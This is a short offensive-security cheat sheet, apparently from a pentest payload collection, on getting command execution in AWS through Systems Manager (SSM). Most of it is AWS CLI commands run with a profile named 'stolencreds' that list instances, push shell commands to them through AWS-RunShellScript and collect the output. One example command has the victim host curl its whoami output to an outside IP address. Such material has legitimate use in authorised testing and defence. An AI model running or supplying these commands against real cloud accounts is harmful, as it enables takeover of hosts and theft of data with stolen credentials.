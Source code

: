 # AWS - Service - SSM

## Command execution

:warning: The ssm-user account is not removed from the system when SSM Agent is uninstalled.

SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

* Windows Server 2008-2012 R2 AMIs published in November 2016 or later
* Windows Server 2016 and 2019
* Amazon Linux
* Amazon Linux 2
* Ubuntu Server 16.04
* Ubuntu Server 18.04
* Amazon ECS-Optimized

```powershell
$ aws ssm describe-instance-information --profile stolencreds --region eu-west-1  
$ aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile stolencreds
$ aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile stolencreds

e.g:
$ aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.███.███:8080/`whoami`' --output text --region=us-east-1
```

## References

* [What is AWS Systems Manager? - AWS](https://docs.aws.amazon.com/systems-manager/latest/userguide/what-is-systems-manager.html)
